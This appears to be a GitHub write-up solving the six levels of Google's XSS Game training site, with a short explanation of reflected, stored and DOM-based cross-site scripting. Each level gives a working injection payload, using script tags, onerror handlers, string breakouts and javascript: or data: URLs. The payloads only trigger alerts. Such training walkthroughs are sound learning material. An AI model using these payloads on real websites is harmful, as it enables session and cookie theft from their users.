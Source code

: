 # XSS Game Appspot 

![image](https://user-images.githubusercontent.com/60937657/209459481-f9fa5664-0a05-4402-8f99-2abe37ffd64d.png)

Link of XSS GAME AREA - https://xss-game.appspot.com/

**Cross-Site Scripting (XSS)** is one of the most popular and vulnerable attacks which is known by every advanced tester. It is considered one of the riskiest attacks for web applications and can bring harmful consequences too.

XSS is often compared with similar client-side attacks, as client-side languages are mostly being used during this attack. However, an XSS attack is considered riskier, because of its ability to damage even less vulnerable technologies.

## Types of Cross Site Scripting Attacks

The prime purpose of performing an XSS attack is to steal another person’s identity. As mentioned, it may be cookies, session tokens, etc. XSS also may be used to display faked pages or forms for the victim. However, this attack can be performed in several ways.

This attack is divided into three main categories as shown below:

1) Reflected XSS – This attack occurs, when a malicious script is not being saved on the webserver but reflected in the website’s results.
2) Stored XSS – This attack occurs when a malicious script is being saved on the webserver permanently.
3) DOM – This occurs, when the DOM environment is being changed, but the code remains the same.


### Level 1 


![image](https://user-images.githubusercontent.com/60937657/209504143-554f58db-6d74-474b-b20f-9f6d1fd4fb8b.png)

```
<script>alert()</script>
```

![image](https://user-images.githubusercontent.com/60937657/209503948-bd3663c3-59d9-4516-a762-96af44f6294d.png)


### Level 2 


![image](https://user-images.githubusercontent.com/60937657/209503755-05c0d614-3dda-4dc7-b855-a42d5b9f4cee.png)

```
<img src="http://inexist.ent"
onerror="javascript:alert(1)"/>
```

![image](https://user-images.githubusercontent.com/60937657/209503869-0f536c23-f2a7-466c-bb0d-101e4a695477.png)


### Level 3 


![image](https://user-images.githubusercontent.com/60937657/209504304-c8f8484f-0c54-4673-a6d0-c403a0591670.png)

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```

![image](https://user-images.githubusercontent.com/60937657/209508407-5e598764-ee7e-478e-a1f6-34245fc3cf76.png)


### Level 4 


![image](https://user-images.githubusercontent.com/60937657/209508468-2e519c5c-0e26-44a7-ad53-a39ff7e25a75.png)

```
timer=');alert('xss
```

![image](https://user-images.githubusercontent.com/60937657/209509468-678f2ef2-8aec-4e88-a381-c7f05e2ac147.png)


### Level 5 


![image](https://user-images.githubusercontent.com/60937657/209523525-15f14c6c-d4e3-4853-8089-57d5614cba2d.png)

Command to be inserted in browser URL section;
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
Command to be inserted in email section;
```
signup?next=javascript:alert(1)
```

![image](https://user-images.githubusercontent.com/60937657/209523829-c4040efd-b95f-487d-a5de-41f4bac8f2fd.png)


### Level 6 


![image](https://user-images.githubusercontent.com/60937657/209524240-5d45e843-c4c8-432a-bb60-fe1f9a151db1.png)

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

![image](https://user-images.githubusercontent.com/60937657/209524546-077771d4-2e74-4a4c-a1dc-e085f8452bd0.png)
